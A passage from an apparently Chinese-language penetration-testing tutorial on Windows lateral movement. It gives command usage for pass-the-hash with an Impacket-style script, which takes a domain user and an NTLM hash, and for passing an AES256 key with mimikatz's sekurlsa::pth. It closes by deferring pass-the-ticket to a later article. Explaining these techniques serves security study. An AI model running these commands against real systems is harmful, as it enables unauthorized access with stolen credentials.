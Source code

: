 用法：

```plain
# 普通用法
python3 xxx.py domain/user:password@ip
# 哈希传递
python3 xxx.py domain/user@ip -hashes :93b95aef15f4d50fab96ffc44a2f326a
```

## [PTK aes256 传递](#toc_ptk-aes256)

打补丁后的工作组及域连接：

```plain
sekurlsa::pth /user:webserver-2008 /domain:uf9n1x /aes256:d7c1d9310753a2f7f240e5b2701dc1e6177d16a6e40af3c5cdff814719821c4b
```

## [PTT 票据传递](#toc_ptt)

需要先了解kerberos认证原理，及金票银票等，放在下一篇讨论
